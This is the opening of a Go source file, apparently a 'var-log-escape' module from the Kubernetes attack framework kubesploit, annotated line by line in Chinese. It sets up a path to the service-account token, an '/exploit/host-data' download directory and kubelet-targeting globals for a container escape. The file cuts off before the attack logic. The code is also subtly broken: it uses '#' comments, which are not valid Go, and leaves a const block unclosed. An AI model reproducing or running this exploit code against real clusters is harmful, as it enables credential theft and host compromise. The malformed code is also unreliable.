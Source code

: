 # `kubesploit\data\modules\sourcecode\go\var-log-escape\main.go`

```
package main
// 声明当前文件所属的包为 main

import (
	"crypto/tls"
	// 导入加密/解密相关的包
	"encoding/hex"
	// 导入十六进制编码/解码相关的包
	"fmt"
	// 导入格式化输入输出相关的包
	"io/ioutil"
	// 导入读取文件内容相关的包
	"log"
	// 导入日志记录相关的包
	"net"
	// 导入网络通信相关的包
	"net/http"
	// 导入 HTTP 相关的包
	"os"
	// 导入操作系统相关的包
	"os/exec"
	// 导入执行外部命令相关的包
	"os/user"
	// 导入操作系统用户相关的包
	"path/filepath"
	// 导入文件路径相关的包
	"regexp"
	// 导入正则表达式相关的包
	"strings"
	// 导入字符串处理相关的包
	"time"
	// 导入时间相关的包
)

const (
// 声明常量
# 定义常量 c_PathSecrets，表示 Kubernetes 服务账户的 token 文件路径
c_PathSecrets  = "/var/run/secrets/kubernetes.io/serviceaccount/token"
# 定义常量 c_DownloadPath，表示下载路径
c_DownloadPath = "/exploit/host-data"

# 定义全局变量 g_Bearer，表示身份验证的 token；g_KubeletEndPoint，表示 kubelet 的端点地址；g_CountScan，表示扫描次数；g_LastStatusRespond，表示最后一次状态响应的值；g_Client，表示 HTTP 客户端
var (
    g_Bearer, g_KubeletEndPoint      string
    g_CountScan, g_LastStatusRespond int
    g_Client                         *http.Client
)

# 定义函数 checkError，用于检查错误并在出现错误时终止程序
func checkError(i_Error error) {
    if i_Error != nil {
        log.Fatal(i_Error)
    }
}

# 定义函数 initVariables，用于初始化变量
func initVariables() {
    # 获取默认网关地址并赋值给变量 defaultGateTemp
```